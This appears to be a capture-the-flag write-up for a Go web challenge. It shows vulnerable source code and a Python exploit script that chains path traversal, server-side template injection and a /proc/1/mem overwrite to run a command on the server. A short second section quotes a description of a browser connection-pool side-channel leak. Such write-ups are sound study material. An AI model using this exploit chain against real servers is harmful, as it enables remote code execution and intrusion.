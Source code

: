 ## Sandevistan
Giving is a Go app and goal is to execute /redflag in the server

### Concerned source code snippets
```
func (s *Server) cwHandlePost(w http.ResponseWriter, r *http.Request){
    err := r.ParseForm()
    if err != nil {
        http.Error(w, err.Error(), http.StatusBadRequest)
        return
    }
    ue := checkForm(r)
 
    // The rest is left out because it's not important
}

func checkForm(r *http.Request) *models.UserError {
    var ue *models.UserError
    ctx := r.Context()
    username, exists := r.Form["username"]
    if !exists {
        ue = &models.UserError{
            Value: "NOUSER",
            Filename: "nouser",
            Ctx: ctx,
        }
        return ue
    }
    ctx = context.WithValue(ctx, "username", username[len(username)-1])
    cwName, exists := r.Form["name"]
    if !exists {
        ue = utils.ErrorFactory(ctx, "CyberWare name doesn't exist", username[len(username)-1])
        return ue
    }
    ue = utils.AlphaNumCheck(ctx, cwName[0])
    return ue
}

func AlphaNumCheck(ctx context.Context, t string) *models.UserError {
    if !regexp.MustCompile(`^[a-zA-Z0-9]*$`).MatchString(t) {
        v := fmt.Sprintf("ERROR! Invalid Value: %s\n", t)
        username := ctx.Value("username")
        regexErr := ErrorFactory(ctx, v, username.(string))
        return regexErr
    }
    return nil
}

func ErrorFactory(ctx context.Context, v string, f string) *models.UserError {
    filename := "errorlog/" + f
    UErr := &models.UserError{
        v,
        f,
        ctx,
    }
    file, _ := os.OpenFile(filename, os.O_RDWR|os.O_CREATE, 0644)
    defer file.Close()

    file.WriteString(v)
    return UErr
}

func (s *Server) handleUserGet(w http.ResponseWriter, r *http.Request) {
    u, err := s.GetUser(r.FormValue("username"))
    if err != nil {
        http.Error(w, "Username not found", http.StatusNotFound)
        return
    }

    if u.Name == "NOUSER" {
        http.Redirect(w, r, "/", http.StatusFound)
    }
    utils.RenderTemplate(w, "/tmpl/user", u)
}

func (u *User) SerializeErrors(data string, index int, offset int64) error {
  fname := u.Errors[index]

    if fname == nil {
        return errors.New("Error not found")
    }
 
    f, err := os.OpenFile(fname.Filename, os.O_RDWR, 0)
    if err != nil {
        return errors.New("File not found")
    }
    defer f.Close()

    _, ferr := f.WriteAt([]byte(data), offset)
    if ferr != nil {
        return errors.New("File error writing")
    }

    return nil
}

func (u *User) UserHealthcheck() ([]byte, error) {
    cmd := exec.Command("/bin/true")  
    output, err := cmd.CombinedOutput()
    if err != nil {
        return nil, errors.New("error in healthcheck")
        panic(err)
    }
    return output, nil

}
```

- The ErrorFactory function has a path traversal vulnerability. You can overwrite any file using ErrorFactory through POST to /cyberware
- Overwrite /tmpl/user.html to do SSTI by sending a POST request with the parameter username=../tmpl/user.html&name=(payload) because it does not check if the user with the given username exists
- The handleUserGet function evaluates the template tmpl/user.html with the user object.
- Run SerializedErrors to overwrite /bin/true in /proc/1/mem
- Run UserHealthcheck to get the flag
```
import requests
# URL = "http://sandevistan.chal.perfect.blue:29005/"
URL = "http://localhost:1338/"

username = "user"

s = requests.session()
r = s.post(URL + "user", data={
    "username": username
})

r = s.post(URL + "cyberware", data={
    "username": "../tmpl/user.html",
    "name": '{{ .NewError "foo" "/proc/1/mem"  }} {{ .SerializeErrors "/readflag" 0 %d }} {{ .UserHealthcheck }}' % 0x93b6bb
})
r = s.get(URL + "user", params={
    "username": username
})
print(r.text)
```

ALTERNATE SOLUTION
![image](https://github.com/user-attachments/assets/a602ab0e-4322-4d83-899a-8a1c24073865)


## TODO : Bluenote
Couldnt find the actual chall but the writeups were something new i read (still ned to go through this)
```
intended solution for bluenote was connection pool abuse yeah
if you block all the sockets, you can let individual blocks of requests go through if you unblock and reblock very quickly
so you block all the sockets, make your search guess, reblock quickly to let the page request through. so the search request is made, and now youre blocking the pool again 
then if your search is right, the page makes a request to dompurify, which should be blocked, and if the search is not right, there is no request 
then you make a request with lower priority than dompurify (i used script async), but higher priority than the background socket blocking fetches
then you allow one request through, if your script async went through there was nothing higher priority. if your script request did not go through, there mustve been something higher priority, meaning dompurify was loaded, meaning your search worked
```
